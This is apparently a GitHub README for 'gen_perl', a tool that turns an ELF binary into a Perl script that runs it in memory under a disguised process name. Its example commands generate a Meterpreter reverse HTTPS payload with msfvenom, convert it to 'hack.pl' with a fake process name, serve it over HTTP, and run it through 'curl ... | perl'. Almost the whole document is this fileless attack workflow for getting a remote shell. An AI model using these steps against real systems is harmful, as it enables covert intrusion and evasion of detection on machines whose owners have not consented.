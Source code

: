 # gen_perl

A script to generate perl script for execute ELF in memory.

## Usage
```
git clone https://github.com/purpleroc/gen_perl
cd gen_perl
chmod +x gen_perl.sh
./gen_perl.sh elf_file perl_script.pl process_name
```

## Example
```
# generate reverse_https elf
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=8443 -f elf -o reverse_https
# convert elf to hack.pl
./gen_perl.sh reverse_https hack.pl hello_hacker
# start http server
python -m SimpleHTTPServer 8080
# execute hack.pl
curl http://127.0.0.1:8080/hack.pl | perl
```

### meterpreter
![](./png/msf.png)

### server
> process info
![](./png/ps.png)

> file info
![](./png/file.png)